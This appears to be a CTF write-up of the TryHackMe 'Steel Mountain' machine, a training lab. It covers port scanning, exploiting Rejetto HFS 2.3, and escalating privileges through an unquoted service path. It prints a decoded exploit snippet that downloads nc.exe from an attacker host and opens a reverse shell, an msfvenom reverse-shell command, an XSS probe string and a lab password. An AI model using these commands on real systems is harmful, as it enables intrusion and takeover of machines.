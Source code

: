 ```yaml
---
title: Steel Mountain
date: 2024-02-13 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Steel Mountain is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with setting up and running a couple of exploits. After you find the vulnerable services, the exploits and path to foothold and privilege escalation are straightforward. 

## Nmap Scan
* nmap -T4 -p- <target ip>
    * PORT      STATE SERVICE
    * 80/tcp    open  http
    * 135/tcp   open  msrpc
    * 139/tcp   open  netbios-ssn
    * 445/tcp   open  microsoft-ds
    * 3389/tcp  open  ms-wbt-server
    * 5985/tcp  open  wsman
    * 8080/tcp  open  http-proxy
    * 47001/tcp open  winrm
    * 49152/tcp open  unknown
    * 49153/tcp open  unknown
    * 49154/tcp open  unknown
    * 49155/tcp open  unknown
    * 49156/tcp open  unknown
    * 49169/tcp open  unknown
    * 49170/tcp open  unknown
* nmap -T4 -sV -A -p 135,139,445,3389,8080 <target ip>
    * 135/tcp  open  msrpc        Microsoft Windows RPC
    * 139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    * 445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    * 3389/tcp open  ssl          Microsoft SChannel TLS
    * 5985/tcp  filtered wsman
    * 47001/tcp open     http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    * |_http-server-header: Microsoft-HTTPAPI/2.0
    * 8080/tcp open http HttpFileServer httpd 2.3
[Rejetto HFS](http://www.rejetto.com/hfs/)

Most of the ports open aren't terrible helpful to use, the unknowns we can ignore here. The most interesting are typically the smb and http services. Checking out the smb services didn't get me anywhere at all, as there doesn't seem to be any access open over smb from what I could find. 

## Checking out the Site
We did find a login page on the site. There doesn't seem to be much we can do here without credentials:
* http://10.10.243.11:8080/~login

## Enumerating the Web Site
Nikto Scan
> nikto -h http://10.10.243.11:8080
    OSVDB-38019: /?mod=<script>alert(document.cookie)</script>&op=browse: Sage 1.0b3 is vulnerable to Cross Site Scripting (XSS).

Dirbuster
> dirbuster dir -u http://10.10.243.11:8080/ -w /usr/share/wordlists/dirb/common.txt 
    No interesting directories found on the site.

## Vulnerable Service
We do see this is Rejetto HttpFileServer 2.3 version. This has a vulnerability that exists both in `Metasploit` and a public python script. We can use searchsploit to find the public exploit: "searchsploit Rejetto 2.3"
* More than one file may come up in your search, and I actually found a different script by mistake at first: `49125.py`
* Took some attempts for me to figure out this is the wrong exploit, and instead the target public exploit is: `39161.py`
    * #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).

Decoding some of the script, we can easily understand the intent: 
```java
{
ip_addr = "attacker ip" #local IP address
local_port = "listening port" # Local Port number

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with

vbs2 = cscript.exe C:\Users\Public\script.vbs
vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
}
```
After URL Decoding the portions of the script that are encoded, we can see this script intends to utilize vbs script creation in order to reach back to our attacker machine, grab netcat, and then use netcat to reach back to our attacker IP and Port that is stagged on our end with netcat. 

> If we have our listener stagged properly on our attacker box with netcat, we will get a connection back to our attacker machine. 

> Success! We are on the machine as the user bill, and can grab user.txt. Now we need to enumerate the box to find our privilege escalation path. 

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/steel_mountain/steelmnuser.png?raw=true)

## Local Enumeration
After doing a file transfer with powershell, we let the x86 version of winpeas run to see what vulnerabilities exist, and take a look through to see what stands out the most. We want to find the low hanging fruit. 

* Basic enumeration items we find:
    * This is a Windows Sever 2012 R2 Data Center
    * Build number 9600
    * All Access to some Named Pipes, with one that has WriteData/Create File access
    * 3 users, Administrator, Guest, and Bill; Guest is disabled
    * There is a Public directory, and we have write/create file access there
    * No interesting files for us, we picked up our nc.exe and the hfs.exe files

Services that are non-microsoft, seems to be:
- Advanced System Care; AdvancedSystemCareService9.
- Amazon Agent.
- IEETwCollectorService.
- IObitUnSvr; no quotes and space detected.
- LiveUpdateSvc; no quotes and space detected.
- Can modify installed programs, seems to be related to those IOBit pua’s.

>Looks like we can write and create files inside of windows tasks and system32 tasks.
>> Found Bills password: PMBAf5KhZAxVhvqb
>>> Ntlmv2 hash was found, not super useful in this context as we aren't looking to pivot from this box.

At this point, the unquoted service path vulnerability seems to be the best choice to try. We need to craft a reverse shell payload to replace a process in one of the file path's are has a space, and that didn't have quotes around it. 

## Crafting our payload
Since `Advanced System Care` didn't have quotes, we throw a reverse shell into this file path as `Advanced.exe`. After we move the file into the path, we need to then stop and start the service that runs the files out of that path, which is service `AdvancedSystemCareService9`.

> Craft payload with `msfvenom`:
>> msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4545 -f exe > Advanced.exe

We transfer the payload over, put it in the correct path, and use sc start/stop to stop and start the service. Once this is done, we get our shell back, and are now `NT Authority\System`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/steel_mountain/steelmnroot.png?raw=true)